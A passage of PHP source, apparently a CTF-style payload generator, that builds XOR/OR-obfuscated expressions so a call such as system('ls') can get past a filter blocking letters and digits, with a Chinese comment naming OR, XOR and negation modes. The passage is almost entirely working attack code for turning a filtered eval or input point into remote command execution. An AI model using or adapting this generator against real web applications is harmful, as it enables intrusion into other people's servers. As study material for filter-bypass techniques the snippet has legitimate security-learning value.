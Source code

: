 ```php
                    $res = '';
                    if ($mode==1){
                        $res = orRce($par1, $par2);
                    }else if ($mode==2){
                        $res = xorRce($par1, $par2);
                    }

                    if (ord($res)>=32&ord($res)<=126){
                        if ((strtoupper($res)===$res)){

                        }else{
                            if ($temp[$res]==null){
                                $temp[$res] = "$par1|$par2";
                            }

                        }

                    }
                }
            }

        }
        $res = "(func^tion)(cmd^line);";
        $par1 = "";
        $par2 = "";
        $par3 = "";
        $par4 = "";
        for($i=0;$i<strlen($func);$i++){
            $expl = explode("|",$temp[$func[$i]]);
            $par1.=$expl[0];
            $par2.=$expl[1];
        }
        for($i=0;$i<strlen($cmd);$i++){
            $expl = explode("|",$temp[$cmd[$i]]);
            $par3.=$expl[0];
            $par4.=$expl[1];
        }
        $res = preg_replace("/func/","\"$par1\"",$res);
        $res = preg_replace("/tion/","\"$par2\"",$res);
        $res = preg_replace("/cmd/","\"$par3\"",$res);
        $res = preg_replace("/line/","\"$par4\"",$res);
        echo $res;
//        var_dump($temp);
    }else{
        negateRce();
    }

}
//mode=1代表或，2代表异或，3代表取反
generate("system","ls",2,"/[a-z0-9]/i");
```
